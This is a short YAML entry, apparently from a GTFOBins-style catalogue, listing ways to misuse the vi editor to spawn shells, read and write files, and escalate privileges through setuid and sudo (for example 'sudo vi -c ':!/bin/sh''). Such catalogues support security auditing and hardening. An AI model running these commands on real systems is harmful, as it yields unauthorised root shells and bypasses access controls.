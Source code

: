 ```yaml
---
functions:
  execute-interactive:
    - code: vi -c ':!/bin/sh'
    - code: |
        vi
        :set shell=/bin/sh
        :shell
  file-write:
    - code: |
        vi file_to_write
        idata
        ^[
        w
  file-read:
    - code: vi file_to_read
  suid-enabled:
    - code: ./vi -c ':!/bin/sh -p'
  sudo-enabled:
    - code: sudo vi -c ':!/bin/sh'
---
```

